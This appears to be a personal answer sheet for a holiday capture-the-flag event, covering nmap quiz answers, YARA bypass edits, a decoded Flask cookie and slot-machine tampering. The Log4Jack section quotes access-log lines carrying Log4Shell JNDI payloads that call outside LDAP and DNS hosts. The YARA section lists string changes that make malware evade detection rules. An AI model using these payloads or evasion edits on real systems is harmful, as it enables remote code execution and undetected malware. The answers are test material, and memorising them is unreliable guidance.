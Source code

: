 
# Orientation

Follow directions

# Logic Munchers

Just have to play the game

# Bonus! Blue Log4Jack

Follow directions

# Bonus! Red Log4Jack

[14/Dec/2021:11:21:14 +0000] "GET /solr/admin/cores?foo=${jndi:ldap://10.26.4.27:1389/Evil} HTTP/1.1" 200 1311 "-" "Mozilla/5.0 (Macintosh; Intel Mac OS X 10.13; rv:64.0) Gecko/20100101 Firefox/64.0"
/var/log/www/access.log:10.99.3.1 - - [08/Dec/2021:19:41:22 +0000] "GET /site.webmanifest HTTP/1.1" 304 0 "-" "${jndi:dns://10.99.3.43/NothingToSeeHere}"
/var/log/www/access.log:10.3.243.6 - - [08/Dec/2021:19:43:35 +0000] "GET / HTTP/1.1" 304 0 "-" "${jndi:ldap://10.3.243.6/DefinitelyLegitimate}"

# NMAP challenge:

## Answer all the questions in the quizme executable:

### What port does 34.76.1.22 have open? 

`62078`

### What port does 34.77.207.226 have open? 

`8080`

### How many hosts appear "Up" in the scan? 

`26054`

### How many hosts have a web port open?  (Let's just use TCP ports 80, 443, and 8080) 

`14372`

```
grep -E "(80|8080|443)/open" bigscan.gnmap | sort |  uniq | wc -l
```

### How many hosts with status Up have no (detected) open TCP ports? 

`402`

```
echo $((`grep Up | wc -l` - `grep 'open/tcp' | wc -l`))
```

### What's the greatest number of TCP ports any one host has open? 

`12`

```
grep -E "(open.*){12,}" | wc -l
```

# YARA Bypass

## rule yara_rule_135 

```   
{
   meta:
      description = "binaries - file Sugar_in_the_machinery"
      author = "Sparkle Redberry"
      reference = "North Pole Malware Research Lab"
      date = "1955-04-21"
      hash = "19ecaadb2159b566c39c999b0f860b4d8fc2824eb648e275f57a6dbceaf9b488"
   strings:
      $s = "candycane"
   condition:
      $s
}
```

- Change **candycane** to `c@ndycane`

## rule yara_rule_1056 

```   
{
   meta:
      description = "binaries - file frosty.exe"
      author = "Sparkle Redberry"
      reference = "North Pole Malware Research Lab"
      date = "1955-04-21"
      hash = "b9b95f671e3d54318b3fd4db1ba3b813325fcef462070da163193d7acb5fcd03"
   strings:
      $s1 = {6c 6962 632e 736f 2e36}
      $hs2 = {726f 6772 616d 2121}   #Hex for rogram!!
   condition:
      all of them
}    
```

- Change **rogram!!** to `rogram?!`

## rule yara_rule_1732 

```
{
   meta:
      description = "binaries - alwayz_winter.exe"
      author = "Santa"
      reference = "North Pole Malware Research Lab"
      date = "1955-04-22"
      hash = "c1e31a539898aab18f483d9e7b3c698ea45799e78bddc919a7dbebb1b40193a8"
   strings:
      $s1 = "This is critical for the execution of this program!!" fullword ascii #
      $s2 = "__frame_dummy_init_array_entry" fullword ascii                       #
      $s3 = ".note.gnu.property" fullword ascii
      $s4 = ".eh_frame_hdr" fullword ascii					  #
      $s5 = "__FRAME_END__" fullword ascii					  #
      $s6 = "__GNU_EH_FRAME_HDR" fullword ascii					  #
      $s7 = "frame_dummy" fullword ascii
      $s8 = ".note.gnu.build-id" fullword ascii
      $s9 = "completed.8060" fullword ascii
      $s10 = "_IO_stdin_used" fullword ascii
      $s11 = ".note.ABI-tag" fullword ascii
      $s12 = "naughty string" fullword ascii					#
      $s13 = "dastardly string" fullword ascii					#
      $s14 = "__do_global_dtors_aux_fini_array_entry" fullword ascii		#
      $s15 = "__libc_start_main@@GLIBC_2.2.5" fullword ascii  			#
      $s16 = "GLIBC_2.2.5" fullword ascii
      $s17 = "its_a_holly_jolly_variable" fullword ascii  			#
      $s18 = "__cxa_finalize" fullword ascii					#
      $s19 = "HolidayHackChallenge{NotReallyAFlag}" fullword ascii		#
      $s20 = "__libc_csu_init" fullword ascii
   condition:
      uint32(1) == 0x02464c45 and filesize < 50KB and
      10 of them
}
```

- Change **HolidayHackChallenge{NotReallyAFlag}** to `HolidayHackChalleng3{NotReallyAFlag}`
- Change **dastardly string** to `datardly_string`
- Change **naughty string** to `naughty_string`
- Change **__frame_dummy_init_array_entry** to `__fram3_dummy_init_array_entry`
- Change **__do_global_dtors_aux_fini_array_entry** to `__d0_global_dtors_aux_fini_array_entry`
- Change **its_a_holly_jolly_variable** to `its_a_ho1ly_jolly_variable`
- Change **.eh_frame_hdr** to `.eh_frame_hDr`
- Change **\_\_FRAME_END\_\_** to `__FRAME_3ND__`
- Change **__GNU_EH_FRAME_HDR** to `__GNU_EH_FRAM3_HDR`
- Change **__cxa_finalize** to `__cx@_finalize`
- Change **__libc_start_main@@GLIBC_2.2.5** to `__libc_start_ma1n@@GLIBC_2.2.5`

# EXIFtool challenge

```
exiftool 2021-12-*.docx | less /Jack
```

`Caramel Santaigo`

Decoded Flask cookies Cyberchef from Base64 url safe zlib inflate

```
{"elf":"Tinsel Upatree","elfHints":["They kept checking their Snapchat app.","The elf mentioned something about Stack Overflow and Python.","Oh, I noticed they had a Star Trek themed phone case.","The elf got really heated about using tabs for indents.","hard"],"location":"Santa's Castle","options":[["Antwerp, Belgium","Prague, Czech Republic","New York, USA"],["Edinburgh, Scotland","Stuttgart, Germany","Reykjav\u00edk, Iceland"],["Montr\u00e9al, Canada","Antwerp, Belgium","Prague, Czech Republic"],["Rovaniemi, Finland","Placeholder","Tokyo, Japan"]],"randomSeed":721,"route":["New York, USA","Edinburgh, Scotland","Antwerp, Belgium","Placeholder"],"victoryToken":"{ hash:\"3852c096dcc7d6403ed61a0b247e979d28bca9714c25faa4956f2196ae7afb11\", resourceId: \"65485b84-6a1d-4dac-afcb-a43bbe34d01e\"}"}
{"elf":"Ribb Bonbowford","elfHints":["Oh, I noticed they had a Star Wars themed phone case.","The elf mentioned something about Stack Overflow and C#.","The elf got really heated about using tabs for indents.","They kept checking their Slack app.","hard"],"location":"Santa's Castle","options":[["Copenhagen, Denmark","Antwerp, Belgium","New York, USA"],["Edinburgh, Scotland","Reykjav\u00edk, Iceland","Stuttgart, Germany"],["Edinburgh, Scotland","Rovaniemi, Finland","New York, USA"],["New York, USA","Edinburgh, Scotland","Placeholder"]],"randomSeed":884,"route":["Antwerp, Belgium","Stuttgart, Germany","Edinburgh, Scotland","Placeholder"],"victoryToken":"{ hash:\"b2f333cb6d56c7329fb71f29ed29dd2c37861251290a29fc5649c44e37a23b13\", resourceId: \"f01c68fb-30e7-471c-aad3-380395e2cac6\"}"}
```

# Parameter tampering slot machine

Change **cpl** to negative value to increase winnings